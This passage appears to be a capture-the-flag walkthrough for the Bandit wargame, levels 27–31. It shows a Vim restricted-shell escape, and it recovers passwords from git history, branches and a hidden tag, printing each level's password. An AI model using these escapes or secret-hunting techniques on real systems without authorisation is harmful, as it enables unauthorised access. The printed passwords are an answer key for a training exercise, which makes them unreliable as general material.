To do so, we need first to correct the shell that we found **bandit26** using previously. So after opening the session, in minimized window, and pressing **V** to open **Vim editor**, let's set the variable shell to the correct path by typing

```console
:set shell=/bin/bash
```

Then, we can open the shell by the following command

```console
:shell
```

And voilà !



We find ourselves in the same case as **level 20** so you know what to do !

The password is **upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB**

# Level 28

After logging in with **bandit27**, we clone the repo into a temporary folder (don't forget to specify the port if you didn't change it in the .ssh configuration). In there, there is a file containing the password

```console
$ git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
$ ls repo/
$ cat repo/REDAME
```

And voilà !


We find ourselves in the same case as **level 20** so you know what to do !

The password is **Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN**

# Level 29

Following the same process, we find a file that has the credentials but the password is hashed. So maybe it was not and at some point it got modified ? To check if that's the case, we can see the history of that file with **git log** command. We can clearly see three versions of that file. Using that **commit hash**, let see the previous version.

```console
$ cat README.md
$ git log -- README.md
```



Using that **commit hash**, let see the previous version.

```console
$ git show fb0df1358b1ff146f581651a84bae622353a71c0:README.md
```



And there is the password !

The password is **4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7**

# Level 30

Following the same process, we find a file that has the credentials but it says that is not in production so we will not find anything in **master** branch. Let's see if there is branches related to development, switch to them and check for any changes.

```console
$ git branch -a
$ git checkout dev
```


As we can see, there is a branch named **dev** that hold some additional folder named **code** and a version of the **README.md** file that contains the password.

The password is **qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL**

# Level 31

Following the previous techniques, nothing is uncovered. Checking the **packed references** file inside **.git/..** folder, we get a tag names **secret**. Humm, showing its content, we get our password.

```console
$ cd .git/
$ ls
$ cat packed-refs
$ git show secret
```



The password is **fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy**
